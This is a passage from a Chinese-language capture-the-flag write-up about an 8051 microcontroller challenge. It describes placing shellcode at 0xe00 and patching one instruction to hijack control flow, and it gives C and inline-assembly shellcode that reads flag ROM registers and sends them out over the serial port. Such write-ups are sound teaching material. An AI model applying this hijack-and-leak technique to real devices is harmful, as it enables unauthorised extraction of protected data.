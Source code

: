 ![image](https://xuanxuanblingbling.github.io/assets/pic/google/patch2.png)


因此首先在0xe00处写好shellcode，然后patch这句进行控制流劫持即可

### shellcode

shellcode基本就是设置FLAGROM_ADDR然后读取FLAGROM_DATA，并输出到SERIAL_OUT_DATA，可以使用C进行编译然后扣出shellcode：

```c
__sfr __at(0xee) FLAGROM_ADDR;
__sfr __at(0xef) FLAGROM_DATA;
__sfr __at(0xf2) SERIAL_OUT_DATA;

void main(void) {
  for(int i=0; i<255; i++){
      FLAGROM_ADDR = i;
      SERIAL_OUT_DATA = FLAGROM_DATA;
  }
}
```

```
➜  ../sdcc/bin/sdcc ./test.c 
```

因为操作很简单，也可以直接写汇编：

- [SDCC - Interfacing with Z80 assembler code](https://gist.github.com/Konamiman/af5645b9998c802753023cf1be8a2970)

```c
__sfr __at(0xee) FLAGROM_ADDR;
__sfr __at(0xef) FLAGROM_DATA;
__sfr __at(0xf2) SERIAL_OUT_DATA;

void main(void) {

  __asm
    mov  A, #0
    mov  _FLAGROM_ADDR, A
    mov  A, _FLAGROM_DATA
    mov  _SERIAL_OUT_DATA, A
  __endasm;

}
```

```
➜  ../sdcc/bin/sdcc ./test.c 
```

所以也可以直接对着汇编写机器码：

- [THE 8051 INSTRUCTION SET](http://vlabs.iitb.ac.in/vlabs-dev/labs/8051-Microcontroller-Lab/src/pdfs-docs/8051IS.pdf)
